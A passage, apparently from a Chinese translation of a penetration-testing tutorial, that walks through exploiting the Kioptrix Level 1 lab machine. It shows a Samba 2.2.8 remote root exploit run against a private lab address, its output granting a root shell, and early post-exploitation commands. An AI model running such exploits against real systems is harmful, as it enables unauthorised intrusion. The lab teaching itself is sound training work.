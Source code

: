 ### 注

请记住，您可以通过转到 `/pentest/exploits/exploitdb`并使用 `./searchexploit`命令，后跟搜索变量（如 `./searchsploit openssl`，来执行本地漏洞攻击存储库的漏洞攻击数据库搜索。

```
# ./SambaVuln_10 -b 0 192.168.75.14 

```

```
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)

```

### 已经连接，现在怎么办？

现在我们已经远程连接，开始收集有关系统的数据非常重要。

### 注

请注意，远程 shell 的功能不等同于标准 Linux shell。

您可能已经注意到没有收到命令提示。看看你连接到哪个 `tty`：

```
tty

```

```
not a tty

```

由于您当前以 root 用户身份运行，我们要访问的大多数命令将可用：

```
# whoami 

```

```
root

```

例如，如果您想使用 SSH 直接连接回回溯（`192.168.75.25`机器，您将遇到如下问题：

```
# ssh 192.168.75.25 

```
